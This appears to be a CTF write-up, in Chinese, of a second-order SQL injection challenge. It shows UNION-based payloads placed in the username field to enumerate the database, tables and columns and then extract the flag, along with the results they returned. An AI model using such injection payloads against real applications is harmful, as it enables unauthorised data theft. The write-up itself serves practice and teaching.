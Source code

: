 ![[Pasted image 20230209095656.png|500]]

```
/?action=login
```

![[Pasted image 20230209095849.png|400]]

```
/?action=reg
```

![[Pasted image 20230209100007.png|400]]

```
/?action=index
```

![[Pasted image 20230209100928.png|400]]

题目明示是二次注入，而唯一的回显点是`info`

对`info`的注入没有什么收获，估计在写入的时候做了转义，而又没有其他情况是需要`info`拼接入查询的

因而注入点大底只可能是`username`了

推测对`info`的查询实现如下

```sql
SELECT INFO FROM USERS WHERE USERNAME = '$username';
```

尝试对用户名进行联合注入

```
username: ' union select database()#
password: 
```

![[Pasted image 20230209102931.png|400]]

```
username: ' union select group_concat(table_name) from information_schema.tables where table_schema = 'ctftraining'#
password: 
```

```
flag,news,users
```

```
username: ' union select group_concat(column_name) from information_schema.columns where table_name = 'flag'#
password: 
```

```
flag
```

```
username: ' union select group_concat(flag) from flag#
password: 
```

```
flag{0ee8b261-5b74-4931-8c2e-aa9cf771b6d5}
```

#Web #SQL注入 #二次注入 